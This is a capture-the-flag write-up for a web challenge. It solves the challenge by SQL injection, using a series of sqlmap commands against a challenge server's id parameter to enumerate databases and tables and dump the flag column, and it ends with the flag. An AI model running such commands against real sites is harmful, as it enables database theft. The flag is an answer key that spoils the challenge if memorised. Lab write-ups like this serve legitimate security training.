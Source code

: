 ## Ann... 300pt

### Problem
> PPAP  
> <http://133.242.234.142/ann/?id=1>


### Answer
Changing the ID Number, the user information is switched.  


![Ann...PPAP](https://github.com/takuzoo3868/noctf/blob/master/13_Ann.../shot01.JPG?raw=true)  


[**Ah ^~ My heart will be hopping ^~~~**](http://dic.nicovideo.jp/a/%E3%81%82%E3%81%81%5E%E3%80%9C%E5%BF%83%E3%81%8C%E3%81%B4%E3%82%87%E3%82%93%E3%81%B4%E3%82%87%E3%82%93%E3%81%99%E3%82%8B%E3%82%93%E3%81%98%E3%82%83%E3%81%81%5E%E3%80%9C)  


Extract database of a sql injection using sqlmap. (See logfile)


```bash
$ sqlmap.py -u "http://133.242.234.142/ann/?id=1" -dbs
```

Aha! Check the `I_h4v3_4_fl4g_4nn` of Tables.  
Just to be sure, I checked the tables of all databases.  


```bash
$ sqlmap.py -u "http://133.242.234.142/ann/?id=1" --tables
```

Ok. Found `flag` table. So extract data stored in the columns of table.


```bash
$ sqlmap.py -u "http://133.242.234.142/ann/?id=1" -D I_h4v3_4_fl4g_4nn -T flags --columns
$ sqlmap.py -u "http://133.242.234.142/ann/?id=1" -D I_h4v3_4_fl4g_4nn -T flags -C flag_is --dump
```


We did it!!


### Flag

`NoCTF{uni0n_sQ1_injecti0n_4nn}`
